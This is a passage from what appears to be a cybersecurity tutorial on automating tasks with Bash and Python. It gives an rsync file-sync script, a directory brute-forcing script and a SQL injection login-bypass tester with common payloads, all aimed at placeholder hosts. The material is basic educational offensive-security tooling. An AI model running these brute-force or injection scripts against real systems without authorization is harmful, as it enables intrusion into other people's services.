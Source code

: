 - **Example: Automating File Transfers**
  - **Script:**
    ```bash
    #!/bin/bash
    SRC_DIR="/path/to/source"
    DEST_DIR="/path/to/destination"
    
    rsync -av --delete $SRC_DIR $DEST_DIR
    ```
  - **Explanation:**
    - This script uses `rsync` to automate the process of syncing files between directories.
    - The `-av` options stand for "archive" and "verbose," while `--delete` removes files in the destination that no longer exist in the source.

#### **2.2 Automating Exploitation Tasks with Python Scripts**

Python offers a wide range of libraries that make it suitable for automating complex tasks, including those related to exploitation.

- **Example: Automating Directory Brute-Forcing**
  - **Script:**
    ```python
    import requests

    url = 'http://example.com/'
    wordlist = 'common.txt'

    with open(wordlist, 'r') as f:
        for line in f:
            directory = line.strip()
            response = requests.get(url + directory)
            if response.status_code == 200:
                print(f"[+] Found directory: {url + directory}")
    ```
  - **Explanation:**
    - This Python script automates the process of brute-forcing directories on a web server.
    - It reads from a wordlist (`common.txt`) and makes HTTP GET requests to check if each directory exists.

- **Example: Automating SQL Injection Detection**
  - **Script:**
    ```python
    import requests

    url = 'http://example.com/login.php'
    payloads = ["' OR 1=1--", "' OR 'a'='a", '" OR "a"="a']

    for payload in payloads:
        data = {'username': payload, 'password': 'password'}
        response = requests.post(url, data=data)
        if "Welcome" in response.text:
            print(f"[+] SQL Injection successful with payload: {payload}")
            break
    ```
  - **Explanation:**
    - This script automates the detection of SQL injection vulnerabilities by testing a list of common SQL payloads.
    - It sends these payloads to a login form and checks if the response indicates a successful login, suggesting a vulnerability.

These examples demonstrate how Bash and Python can be used to automate tasks in cybersecurity, streamlining processes that would otherwise be time-consuming if done manually. Both scripting languages are essential tools in the toolkit of a security professional.
